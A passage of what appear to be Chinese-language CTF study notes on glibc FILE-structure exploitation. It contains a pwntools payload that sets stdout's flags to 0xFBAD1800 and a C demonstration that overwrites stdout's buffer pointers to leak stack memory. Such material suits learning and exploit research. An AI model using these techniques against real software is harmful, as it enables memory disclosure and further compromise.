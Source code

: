 ```c
}
```

```python
pay  = p64(0xFBAD1800) + p64(0) * 3 + p64(buf) + p64(buf + 0x20)
```

![](assets/Pasted%20image%2020240403163652-20240410143028-1hpgid2.png)
![](assets/Pasted%20image%2020240403163656-20240410143028-n16e7d5.png)

### ​_IO_2_1_stdout_​ 泄露地址-2

- 参考 flipma

```c
#include<stdio.h>
#include<stdlib.h>

int main(){

    char stack_data[] = "0123456789abcdef";

    setbuf(stdout, 0LL);
    puts("start");
    stdout->_IO_read_end     = stack_data;
    stdout->_IO_read_base    = stack_data + 0x20;
    stdout->_IO_write_base   = stack_data;
    stdout->_IO_write_ptr    = stack_data + 0x20;

    puts("attack");

    //getchar();
    return 0;
}
```
